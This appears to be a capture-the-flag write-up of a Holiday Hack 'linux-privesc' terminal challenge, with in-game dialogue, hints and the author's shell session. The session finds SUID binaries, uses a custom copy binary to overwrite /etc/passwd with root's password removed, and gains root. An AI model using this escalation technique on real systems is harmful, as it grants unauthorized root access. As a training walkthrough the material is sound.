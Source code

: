 # linux-privesc <img src="../img/tree-red.png" alt="drawing" width="20"/><img src="../img/tree-red.png" alt="drawing" width="20"/><img src="../img/tree-red.png" alt="drawing" width="20"/><img src="../img/tree-outline.png" alt="drawing" width="20"/><img src="../img/tree-outline.png" alt="drawing" width="20"/>

[< Back Home](../README.md)

## Objective
Rose mold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

## Conversations

Rose Mold

Initial conversation:

- What am I doing in this saloon? The better question is: what planet are you from?
- Yes, I’m a troll from the Planet Frost. I decided to stay on Earth after Holiday Hack 2021 and live among the elves because I made such dear friends here.
- Whatever. Do you know much about privilege escalation techniques on Linux?
- You're asking why? How about I'll tell you why after you help me.
- And you might have to use that big brain of yours to get creative, bub.

After solving challengs:

- Yup, I knew you knew. You just have that vibe.
- To answer your question of why from earlier... Nunya!
- But, I will tell you something better, about some information I... found.
- There's a hidden, uncharted area somewhere along the coast of this island, and there may be more around the other islands.
- The area is supposed to have something on it that's totes worth, but I hear all the bad vibe toys chill there.
- That's all I got. K byyeeeee.
- Ugh... n00bs...

## Hints

- Use the privileged binary to overwriting a file to escalate privileges could be a solution, but there's an easier method if you pass it a crafty argument.
- There's [various ways](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/) to escalate privileges on a Linux system.

## Useful AI Prompts

## Approach
For this approach, I first went through the normal Linux survey commands upon connection. Nothing really stood out, so I began looking for exploits related to the Linux distro which is Linux 3a7ac2253603 5.10.0-26-cloud-amd64.
Looking for exploits, there were some viable ones, but they would have taken some work. I spent some time reviewing [this](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/). I then pivoted to looking for a way to exploit SUID executables,
and found the following:

```console
elf@408ce566d9d0:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/passwd
/usr/bin/simplecopy
```

At first, I went down some rabbit holes trying to think of a way to exploit one of those executables, so I went on to other challenges. I then had an epiphany - what if I grabbed the /etc/passwd file, copied it, modified the copied version so root doesn't use /etc/shadow/ and then used simplecopy to copy it back to /etc/passwd? (SMH) 

Exploit:
```console
In a digital winter wonderland we play,
Where elves and bytes in harmony lay.
This festive terminal is clear and bright,
Escalate privileges, and bring forth the light.

Start in the land of bash, where you reside,
But to win this game, to root you must glide.
Climb the ladder, permissions to seize,
Unravel the mystery, with elegance and ease.

There lies a gift, in the root's domain,
An executable file to run, the prize you'll obtain.
The game is won, the challenge complete,
Merry Christmas to all, and to all, a root feat!

* Find a method to escalate privileges inside this terminal and then run the binary in /root *

elf@ff34bc1d8894:~$ pwd
/home/elf
elf@ff34bc1d8894:~$ ls
HELP
elf@ff34bc1d8894:~$ cp /etc/passwd passwdcopy
elf@ff34bc1d8894:~$ sed -i 's;root:x:0:0:root:/root:/bin/bash;root::0:0:root:/root:/bin/bash;g' passwdcopy
elf@ff34bc1d8894:~$ /usr/bin/simplecopy passwdcopy /etc/passwd
elf@ff34bc1d8894:~$ su
root@ff34bc1d8894:/home/elf# cd /root
root@ff34bc1d8894:~# ls
runmetoanswer
root@ff34bc1d8894:~# ./runmetoanswer 
Who delivers Christmas presents?

> 
```

When you execute runmetoanswer, your answer is case sensitive :)

## Alternate approach

## Resources
